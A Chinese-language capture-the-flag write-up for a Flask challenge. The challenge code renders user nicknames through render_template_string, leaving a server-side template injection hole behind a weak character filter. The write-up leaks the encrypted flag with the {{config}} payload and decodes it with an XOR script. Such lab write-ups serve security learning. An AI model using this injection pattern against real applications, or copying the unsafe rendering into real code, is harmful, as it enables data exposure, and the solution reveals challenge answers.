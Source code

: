 ```python
    '♪ ♪ ♪ %s ♪ ♪ ♪ ', 
    '[♥♥♥%s♥♥♥]', 
    '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', 
    '♔%s♔', 
    '[♂+♂=♥]%s[♂+♂=♥]'
]

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p is not None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
            return render_template_string(nicknames[id] % p)
        except Exception as e:
            print(e)
            return 'Exception'
    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
### 方法一：逆向
关于flag的关键部分，读取了flag，进行加密放到了config配置里，最后删除了flag文件。加密处理逻辑还在，配置里有加密的flag，逆一下还可以拿flag

```python
file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]
app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""
os.remove("/app/flag")
```

::: v-pre
拿到配置里的加密flag，`{{config}}`
:::

![3](https://the0n3.top/medias/buuflask/3.png)

```python
def decode(encrypted_flag, key, key2):
    decrypted = ''
    for x in range(len(encrypted_flag)):
        # 解密过程，重复加密操作
        char = chr(x ^ ord(encrypted_flag[x]) ^ ord(key[::-1][x]) ^ ord(key2[x]))
        decrypted += char
    return decrypted

# 已知变量
encrypted_flag = '-M7\x10w\x176=4\x06"c-\x0eL\x03bS(D\x18H\n\x17!oT`\x02^\x12\r!V.,\x17`E^\x1eG'
key = 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2 = 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'

# 解密并打印原始flag
flag = decode(encrypted_flag, key, key2)
print("Decrypted flag:", flag)
```
